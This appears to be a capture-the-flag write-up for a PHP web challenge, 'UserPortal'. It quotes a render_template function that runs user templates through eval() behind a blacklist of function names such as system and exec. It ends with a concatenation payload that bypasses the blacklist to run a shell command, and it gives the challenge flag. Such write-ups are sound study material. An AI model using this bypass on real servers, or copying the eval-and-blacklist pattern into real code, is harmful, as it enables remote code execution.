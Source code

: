 # Solution to UserPortal Challenge

**Category**: Web Exploitation  
**Flag**: `VSL{12e844403b1fb9c5b6705d8dd8823e4a}`

## Challenge Description

The **UserPortal** challenge presents a web application feature that allows users to render templates. Upon inspecting the source code, it becomes evident that the application uses the `eval()` function within the `render_template` method to process user-supplied templates. The primary objective is to achieve Remote Code Execution (RCE) despite the presence of a blacklist intended to block dangerous PHP functions.

## Source Code Analysis

The critical portion of the code resides in `src/includes/functions.php` within the `render_template` function:

```php
public static function render_template($template, $variables = [])
{
    $blacklist = [
        'system',
        'exec',
        'shell_exec',
        'passthru',
        'eval',
        'phpinfo',
        'assert',
        'create_function',
        'include',
        'require',
        'fopen',
        'fwrite',
        'file_put_contents',
        'file_get_contents',
    ];
    foreach ($blacklist as $badword) {
        if (stripos($template, $badword) !== false) {
            return "Error: Invalid input detected.";
        }
    }
    extract($variables);
    try {
        eval ("\$output = \"$template\";");
        return $output;
    } catch (ParseError $e) {
        return "Syntax Error: " . $e->getMessage();
    }
}
```
**Payload:** ```$s = 'sy' . 'stem'; $s('whoami'); //```